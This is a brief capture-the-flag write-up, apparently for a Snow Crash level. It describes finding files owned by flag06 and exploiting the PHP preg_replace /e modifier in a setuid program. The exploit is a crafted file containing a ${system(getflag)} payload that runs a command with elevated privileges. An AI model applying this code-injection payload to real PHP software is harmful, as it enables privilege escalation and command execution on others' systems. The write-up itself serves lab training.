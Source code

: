 ## Project README: Finding flag06

Our routine: 
```bash
ls -la
find / -user flag06 -print 2>/dev/null
```
This time, there were two files.

So the idea is to make this file run getflag cause in doing so we are not running getflag as user **level06** but as **flag06** since level06 file was created by **flag06**.

To do so, we find that char **/e** was a wellknowned exploit for the **preg_replace** function.
After several aptement, we find out there was a **Regex** in the **php** program...
In order to exploit this breach, we used the following command: 

```bash
echo '/([x .{${system(getflag)}}@])' > /tmp/testphp
./level06 /tmp/testphp
```

And VOILA

